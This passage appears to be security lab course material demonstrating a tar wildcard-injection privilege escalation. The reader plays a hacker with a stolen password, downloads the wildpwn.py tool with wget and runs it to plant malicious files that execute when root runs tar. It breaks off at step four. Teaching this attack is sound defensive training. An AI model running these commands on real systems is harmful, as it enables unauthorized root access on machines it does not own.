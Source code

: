 #### Exploiting `tar` Demo Scenario

Now, we'll use the following scenario to demonstrate how to carryout this exploit:

- A hacker has gained access to our system by stealing the password for the instructor user.

- Although for this example we will pretend that instructor user does not have root access, in your activity you will truly be working on a user without root access.

- We will be taking the role of the hacker and will use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command.

#### Exploiting `tar` Demo 

1. Open up a terminal and run the following commands:

    - Create a new directory for this demonstration: `mkdir ~/Documents/exploit_demo`

    - Move to the `exploit_demo` directory with: 

        - `cd ~/Documents/exploit_demo`

        - This is the directory to which the hacker would download the `wildpwn.py` program.

2. Download the script with `wget`.

    - Then, run `ls -l` to show that the `wildpwn.py` program is in this directory.

    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and note that this will create both the malicious script and checkpoint files.

      - `python` is used to run Python programs.
      - `wildpwn.py` is the program we’re executing.
      - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
      - The `.` specifies that these files should be created in the current directory.

   - Run the command and show the output:

      - `python wildpwn.py tar .`
      ```  
      [!] selected payload tar

      [*] Done! Now wait for something like: archive.tar * on . Good Luck!
      ```

    - Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

4. The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.
